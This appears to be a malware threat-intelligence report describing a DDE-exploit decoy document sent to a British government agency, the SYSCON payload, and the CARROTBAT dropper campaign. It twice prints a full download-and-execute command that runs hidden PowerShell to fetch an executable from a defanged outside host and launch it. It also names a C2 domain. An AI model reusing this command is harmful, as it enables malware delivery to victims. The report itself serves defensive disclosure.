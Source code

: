 Figure 1 Article referenced by decoy document in attack against British government agency
 
The attached document leverages a DDE exploit to ultimately execute the following code:





c:\\windows\\system32\\cmd.exe "/k PowerShell.exe -ExecutionPolicy bypass -windowstyle hidden -noprofile -command (New-Object System.Net.WebClient).DownloadFile('https://881.000webhostapp[.]com/0_31.doc', '%TEMP%\\AAA.exe');Start-Process('%TEMP%\\AAA.exe')




1

c:\\windows\\system32\\cmd.exe "/k PowerShell.exe -ExecutionPolicy bypass -windowstyle hidden -noprofile -command (New-Object System.Net.WebClient).DownloadFile('https://881.000webhostapp[.]com/0_31.doc', '%TEMP%\\AAA.exe');Start-Process('%TEMP%\\AAA.exe')





Palo Alto Networks first witnessed this DDE exploit technique in May 2017, and attackers continue to leverage it. The command run by this particular malware sample attempts to download a remote executable file named 0_31.doc, which in turn is placed within the victim’s %TEMP% directory with the filename of AAA.exe prior to being executed.
The payload in question belongs to the SYSCON malware family. It communicates with ftp.bytehost31[.]org via FTP for command and control (C2).

Figure 2 SYSCON network traffic witnessed during execution
 
Pivoting on the domain hosting the SYSCON sample, 881.000webhostapp[.]com, revealed a number of additional samples, including a sample of the KONNI malware family, and four 64-bit executable files belonging to the CARROTBAT malware family. Pivoting further on characteristics belonging to CARROTBAT ultimately led to the identification of 29 unique samples in this malware family.
 
Fractured Block Campaign
The campaign dubbed Fractured Block encompasses all CARROTBAT samples identified to date. CARROTBAT itself is a dropper that allows an attacker to drop and open an embedded decoy file, followed by the execution of a command that will download and run a payload on the targeted machine. In total, the following 11 decoy document file formats are supported by this malware:

doc
.docx
.eml
.hwp
.jpg
.pdf
.png
.ppt
.pptx
.xls
.xlsx

After the embedded decoy document is opened, an obfuscated command such as the following is executed on the system:

